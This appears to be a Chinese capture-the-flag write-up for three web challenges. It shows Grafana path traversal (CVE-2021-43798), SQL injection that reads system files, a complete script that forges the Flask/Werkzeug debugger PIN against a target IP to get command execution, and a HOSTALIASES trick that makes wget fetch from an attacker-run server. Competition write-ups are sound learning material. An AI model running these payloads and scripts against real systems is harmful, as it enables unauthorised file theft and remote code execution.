

感觉挺有趣的

<!-- more -->

# Web：

## oh-my-grafana

上来先搜grafana历史漏洞，果然根据版本号可以找到 [CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798) 进行目录穿越读文件。下载现成的 [POC](https://dl.packetstormsecurity.net/2112-exploits/grafana830-traversal.txt) 把插件排除一下可以查出默认的用户名密码。

-20220421125600359.(null))

通过目录穿越读文件，即可以直接找`/etc/grafana/grafana.ini`，里面`admin_password`明文密码

使用用户名密码登录上系统，可以发现在 Data Source 处有 MySQL 数据库。从 Explore 功能里构造 time 写语句即可查出 flag。

-20220421125600439.(null))

```SQL
seLect/**/group_concat(tablE_nAme), 1 as time/**/frOm/**/infOrmation_schEma.tablEs/**/whEre/**/table_schema=databAse()
```

-20220421125559937.(null))

```SQL
seLect/**/group_concat(column_nAme), 1 as time/**/frOm/**/infOrmation_schEma.columns/**/whEre/**/table_schema=databAse()
```

)

```SQL
seLect/**/flag, 1 as time/**/frOm/**/fffffflllllllllaaaagggggg
```

其实直接看历史就有`fffffflllllllllaaaagggggg`这个表的查询记录，直接select就行

---

## oh-my-notepro

打开题目正常逻辑流程走一遍，发现写的note会过段时间(1-3s)被修改为‘Hacked by fmyy’，过了几个小时询问出题人发现此不是题目所为，很破坏体验，在无意义的项目上折腾浪费了很长时间。

根据`/view`路由报错获取部分源码，看不到 sql 构造，知道开启了flask debug mode

```Python
@login_required

def view():

    note_id = request.args.get("note_id")

    sql = f"select * from notes where note_id='{note_id}'"

    print(sql)

    result = db.session.execute(sql, params={"multi": True})

    db.session.commit()


    result = result.fetchone()

    data = {

        'title': result[4],

        'text': result[3],

    }

    return render_template('note.html', data=data)
```

但是报错右侧有console小标，猜测一手：flask PIN码伪造，猜对了

`/view`处参数`note_id`可以直接注入，有明文报错

-20220421125600008.(null))

根据爆的表发现其他选手都在爆machineid和cgroup，更加确定是flask PIN码伪造，读取了报错内容里flask生成PIN码的关键逻辑

``` python
def get_pin_and_cookie_name(
    app: "WSGIApplication",
) -> t.Union[t.Tuple[str, str], t.Tuple[None, None]]:
    """Given an application object this returns a semi-stable 9 digit pin
    code and a random key.  The hope is that this is stable between
    restarts to not make debugging particularly frustrating.  If the pin
    was forcefully disabled this returns `None`.

    Second item in the resulting tuple is the cookie name for remembering.
    """
    pin = os.environ.get("WERKZEUG_DEBUG_PIN")
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == "off":
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace("-", "").isdigit():
        # If there are separators in the pin, return it directly
        if "-" in pin:
            rv = pin
        else:
            num = pin

    modname = getattr(app, "__module__", t.cast(object, app).__class__.__module__)
    username: t.Optional[str]

    try:
        # getuser imports the pwd module, which does not exist in Google
        # App Engine. It may also raise a KeyError if the UID does not
        # have a username, such as in Docker.
        username = getpass.getuser()
    except (ImportError, KeyError):
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```

可以明白rv就是最后生成的PIN码，生成PIN需要几个关键变量，

``` python
......
  	# This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.sha1()
......
```

即`username`,`modname`,`getattr(app, "__name__", type(app).__name__)`,`getattr(mod, "__file__", None)`,`str(uuid.getnode())`和`get_machine_id()`

### username

根据报错可知，启动用户为`ctf`，即`username`为`ctf`

### modname

modname也是根据报错得知为`flask.app`，默认也是

### getattr(app, "__name__", type(app).__name__)

`getattr(app, "__name__", type(app).__name__)`默认为Flask

### getattr(mod, "__file__", None)

`getattr(mod, "__file__", None)`在报错界面可知为`/usr/local/lib/python3.8/site-packages/flask/app.py`

### str(uuid.getnode())

靶机此值每次重置都会变化

`str(uuid.getnode())`即为靶机网卡MAC地址的十进制，利用堆叠注入，读入文件`-1';create table {tablename}(cmd text);load data local infile '{file}' into table {tablename} fields terminated by '\\n';%23`(此处用load_file好像不可以)

然后用联合查询`0' union select 1,2,3,4,(select group_concat(concat_ws(0x7e,cmd)) from {tablename})%23`从主页上读取信息

读取了`/sys/class/net/eth0/address`，用python `str(int(MAC.decode().replace(":", ""), 16))`处理为十进制

### get_machine_id()

靶机此值每次重置都会变化

最后就剩`get_machine_id()`，网上文章众说纷纭，因为flask更新过这边的生成逻辑，这里不举例了，读了`__init__.py`直接对着题目分析代码

``` python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
            # subprocess may not be available, e.g. Google App Engine
            # https://github.com/pallets/werkzeug/issues/925
            from subprocess import Popen, PIPE

            dump = Popen(
                ["ioreg", "-c", "IOPlatformExpertDevice", "-d", "2"], stdout=PIPE
            ).communicate()[0]
            match = re.search(b'"serial-number" = <([^>]+)', dump)

            if match is not None:
                return match.group(1)
        except (OSError, ImportError):
            pass

        # On Windows, use winreg to get the machine guid.
        if sys.platform == "win32":
            import winreg

            try:
                with winreg.OpenKey(
                    winreg.HKEY_LOCAL_MACHINE,
                    "SOFTWARE\\Microsoft\\Cryptography",
                    0,
                    winreg.KEY_READ | winreg.KEY_WOW64_64KEY,
                ) as rk:
                    guid: t.Union[str, bytes]
                    guid_type: int
                    guid, guid_type = winreg.QueryValueEx(rk, "MachineGuid")

                    if guid_type == winreg.REG_SZ:
                        return guid.encode("utf-8")

                    return guid
            except OSError:
                pass

        return None

    _machine_id = _generate()
    return _machine_id
```

看前两段

``` python
global _machine_id

    if _machine_id is not None:
        return _machine_id
```

如果有了`_machine_id`就直接返回，网上第一种说法就是直接用`machine_id`生成，但是找了下这个变量的地址，在这个函数倒数第二行，`_machine_id = _generate()`，也就是说只是为了防止重复生成所以在开头写的这一段逻辑，并不是说直接用`machine_id`生成

接着往下看

``` python
    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break
```

根据逻辑可知，`value = f.readline().strip()`，即这里读到了`/etc/machine-id`后就break了

继续

``` python
        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux
```

读了`/proc/self/cgroup`，然后加了`/`后的数据，根据读到的情况有三种，分别如下

`0::/system.slice/containerd.service    `

`10:memory:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15 `

`5:rdma:/    `

实际上我读的数据是根据ascii序列排序过的，实际上如下



但即使出错也没关系，因为如果读不到`f.readline().strip().rpartition(b"/")[2]`，它会pass掉，继续往下读，所以最后读到的就是`docker/`后的值，也就是`/etc/machine-id`+`/proc/self/cgroup`里`docker/`后的值

然后就利用生成脚本生成PIN码，这里注意题目还有个改动，这里利用的是sha1的update，不是md5，`h = hashlib.sha1()`

### 写了一键构造脚本如下

```Python
"""

-*- coding: utf-8 -*-

@File: getPin.py

@Author: Err0r

"""

import random

import string

import uuid


import requests


"""

/etc/machine-id

1cc402dd0e11d5ae18db04a6de87223d


/proc/self/cgroup

+---------------------------------------------------------------------------------------------+

| 0::/system.slice/containerd.service                                                         |

| 10:memory:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15          |

| 11:freezer:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15         |

| 12:cpuset:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15          |

| 1:name=systemd:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15     |

| 2:hugetlb:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15          |

| 3:net_cls,net_prio:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15 |

| 4:perf_event:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15       |

| 5:rdma:/                                                                                    |

| 6:pids:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15             |

| 7:cpu,cpuacct:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15      |

| 8:devices:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15          |

| 9:blkio:/docker/6c8595fc16c3b824397356dbff734dcd09090a39e99188df0f26289cf7c11f15            |

+---------------------------------------------------------------------------------------------+


/proc/sys/kernel/random/boot_id

a67fd832-a114-48c4-9ff7-161438b262dc


/sys/class/net/eth0/address

02:42:c0:a8:d0:03


fuxk

"""

import hashlib

from itertools import chain


url = "http://123.60.72.85:5002/view"


session = requests.session()


cookies = {

    "session": "eyJjc3JmX3Rva2VuIjoiNTIzYzk1ODJkMDY3YzU0Yjk5YmZjMjgyNGVlODgyYWZkNmFkZDgwOCIsInVzZXJuYW1lIjoiYTwvYT48c2NyaXB0PmFsZXJ0KDEpOzwvc2NyaXB0PjxhPiJ9.YlpCjg.o3nmen81K8VdxHDT-4lrydruCMQ"

}


def getPin(uuid, machine_id, username='root', modname='flask.app', className='Flask',

           file='/usr/local/lib/python3.8/site-packages/flask/app.py'):

    probably_public_bits = [

        username,  # username

        modname,  # modname

        className,  # getattr(app, '__name__', getattr(app.__class__, '__name__'))

        file  # getattr(mod, '__file__', None),

    ]


    private_bits = [

        uuid,  # str(uuid.getnode()),  /sys/class/net/ens33/address

        machine_id  # get_machine_id(), /etc/machine-id

    ]


    h = hashlib.sha1()

    for bit in chain(probably_public_bits, private_bits):

        if not bit:

            continue

        if isinstance(bit, str):

            bit = bit.encode('utf-8')

        h.update(bit)

    h.update(b'cookiesalt')


    cookie_name = '__wzd' + h.hexdigest()[:20]


    num = None

    if num is None:

        h.update(b'pinsalt')

        num = ('%09d' % int(h.hexdigest(), 16))[:9]


    rv = None

    if rv is None:

        for group_size in 5, 4, 3:

            if len(num) % group_size == 0:

                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')

                              for x in range(0, len(num), group_size))

                break

        else:

            rv = num


    print(rv)

    return rv


def createTable(file):

    tablename = ''.join(random.sample(string.ascii_letters + string.digits, 8))

    paramsGet = {

        "note_id": f"-1';create table {tablename}(cmd text);load data local infile '{file}' into table {tablename} fields terminated by '\\n';\x23"}

    res = session.get(url, params=paramsGet, cookies=cookies)

    # print(tablename)

    return tablename


def readtable(tablename):

    paramsGet = {"note_id": f"0' union select 1,2,3,4,(select group_concat(concat_ws(0x7e,cmd)) from {tablename})\x23"}

    response = session.get(url, params=paramsGet, cookies=cookies)

    response = response.content.split(b'<h1 style="text-align: center">\n')[1].split(b"\n")[0][8:]

    # print(response)

    return response


def check(pin):

    res = session.get(url, cookies=cookies).text

    s = res.split("SECRET = \"")[1].split("\";")[0]

    paramsGet = {

        "__debugger__": "yes",

        "cmd": "pinauth",

        "s": s,

        "pin": pin

    }

    response = session.get(url, params=paramsGet, cookies=cookies)

    print(response.text)


if __name__ == '__main__':

    getmac = createTable("/sys/class/net/eth0/address")

    getmac = str(int(readtable(getmac).decode().replace(":", ""), 16))

    print(getmac)


    getCgroup = createTable("/proc/self/cgroup")

    getCgroup = str(readtable(getCgroup).decode().split("/")[2].split(",")[0])

    print(getCgroup)


    getMachineId = createTable("/etc/machine-id")

    getMachineId = str(readtable(getMachineId).decode())

    print(getMachineId)


    getBootId = createTable("/proc/sys/kernel/random/boot_id")

    getBootId = str(readtable(getBootId).decode())

    print(getBootId)


    # etcPasswd = createTable("/etc/passwd")

    # etcPasswd = str(readtable(etcPasswd).decode()).split(",")

    # users = []

    # for i in etcPasswd:

    #     users.append(i.split(":")[0])

    # print(users)


    users = ['ctf']

    for i in users:

        print(i)

        # pin1 = getPin(getmac, getMachineId, username=i)

        # check(pin1)

        #

        # pin2 = getPin(getmac, getCgroup, username=i)

        # check(pin2)


        # pin3 = getPin(getmac, getBootId+getCgroup, username=i)

        # check(pin3)


        pin4 = getPin(getmac, getMachineId+getCgroup, username=i)

        check(pin4)
```

-20220421125559691.(null))

拿到pin码解锁，然后执行命令

-20220421125600275.(null))

根目录执行/readflag

-20220421125559899.(null))

---

## oh-my-lotto

下载附件审计源码可以发现一个文件上传，保存为 `/app/guess/forecast.txt`。同时在通过如下 check 的情况下可以设置环境变量。

```Python
def safe_check(s):

    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s or 'PS' in s: 

        return False

    return True
```

设定好环境变量后执行如下逻辑。

```Python
try:

    os.system('wget --content-disposition -N lotto')


    if os.path.exists("/app/lotto_result.txt"):

        lotto_result = open("/app/lotto_result.txt", 'rb').read()

    else:

        lotto_result = 'result'

    if os.path.exists("/app/guess/forecast.txt"):

        forecast = open("/app/guess/forecast.txt", 'rb').read()

    else:

        forecast = 'forecast'


    if forecast == lotto_result:

        return flag

    else:

        message = 'Sorry forecast failed, maybe lucky next time!'

        return render_template('lotto.html', message=message)

except Exception as e:

    message = 'Lotto Error!'

    return render_template('lotto.html', message=message)
```

wget 处采用了 hostname 的方式，此时只要劫持到 lotto 即可实现任意文件下载。因此设置环境变量如下。

```Bash
HOSTALIASES=/app/guess/forecast.txt
```

-20220421125601129.(null))

将文件内容设置如下。

```CSS
lotto lottod.lemonprefect.cn
```

-20220421125600612.(null))

此时 lotto 的解析即可被劫持到 `lottod.lemonprefect.cn`。将如下 nginx 反代配置好。

```Nginx
server

    {

        listen 80;

        #listen [::]:80;

        server_name lottod.lemonprefect.cn lotto;

        index index.html index.htm index.php default.html default.htm default.php;

        root  /home/wwwroot/lottod.lemonprefect.cn;

        location /

        {

                proxy_pass http://localhost:8068;

        }

        location ~ /.well-known {

            allow all;

        }

        location ~ /\.

        {

            deny all;

        }

        access_log  /home/wwwlogs/lottod.lemonprefect.cn.log;

    }
```

在对应端口运行如下程序。

```Python
from flask import Flask, make_response

import secrets


app = Flask(__name__)


@app.route("/")

def index():

    r = "lotto lottod.lemonprefect.cn"

    response = make_response(r)

    response.headers['Content-Type'] = 'text/plain'

    response.headers['Content-Disposition'] = 'attachment; filename=lotto_result.txt'

    return response


if __name__ == "__main__":

    app.run(debug=True, host='0.0.0.0', port=8068)
```

即可同时达成劫持与内容相等，获得 flag。

-20220421125559634.(null))

---

其他方向的题目由于我没做就不写啦